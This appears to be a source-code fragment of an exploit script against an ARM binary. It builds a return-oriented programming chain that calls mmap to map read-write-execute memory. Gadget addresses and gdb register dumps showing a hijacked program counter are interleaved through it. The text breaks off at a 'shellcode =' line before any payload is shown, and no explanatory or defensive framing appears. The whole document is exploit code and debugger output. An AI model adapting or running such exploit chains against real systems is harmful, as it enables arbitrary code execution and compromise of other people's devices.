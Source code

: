 ```python
pc             0x5a5a5a5a          0x5a5a5a5a  
cpsr           0x600b0110          1611333904  
fpscr          0x10                16  
"""  
address = 0x177000  
stderr = 0x00036E90  
ropchain = c[:74] + p32(stderr) + p32(address) * 4  
ropchain = ropchain.ljust(94, "A")  
ropchain += p32(r3popnothumb)  
ropchain += p32(address) #r3 dont care  
ropchain += p32(r5pop+1)  
ropchain += p32(address) #r5 dont care  
ropchain += p32(r14pop+1)  
ropchain += p32(0x1000) #r1 size  
ropchain += p32(address) #r4 dont care  
ropchain += p32(r234pop+1) #pc  
ropchain += p32(7) #r2 prot  
ropchain += p32(address) #r3 dont care  
ropchain += p32(address) #r4 dont care  
ropchain += p32(r03pop+1) #pc  
ropchain += p32(address) #r0 addr  
ropchain += p32(0x22) #r3 flags Anonimous  
ropchain += p32(mmap)  
ropchain += p32(0x0) #fildes  
ropchain += p32(0x0) #off  
ropchain += p32(0x41414141) #pc

"""  
r0             0xffffffff          4294967295  
r1             0x9                 9  
r2             0x76f9c6a0          1996080800  
r3             0xffffffff          4294967295  
r4             0x41414141          1094795585  
r5             0x41414141          1094795585  
r6             0x41414141          1094795585  
r7             0x41414141          1094795585  
r8             0x41414141          1094795585  
r9             0x177000            1536000  
r10            0x177000            1536000  
r11            0x177000            1536000  
r12            0x6                 6  
sp             0x7ed1fd70          0x7ed1fd70  
lr             0x76dde329          1994253097  
pc             0x5a5a5a5a          0x5a5a5a5a  
cpsr           0x200f0110          537854224  
fpscr          0x10                16  
"""

#0x000118c4 : strb r3, [r4] ; pop {r4, pc}  
storer3r4 = 0x000118c4  
#0x00013ad2 : str r2, [r3] ; pop {r4, pc}  
storer2r3 = 0x00013ad2  
# 0x00013568 : str r4, [r3] ; mov r0, r1 ; pop {r4, pc}  
storer4r3 = 0x00013568

ropchain_second = "A"*126

# 0x00012a6a : pop {r3, pc}  
popr3 = 0x00012a6a

shellcode =
```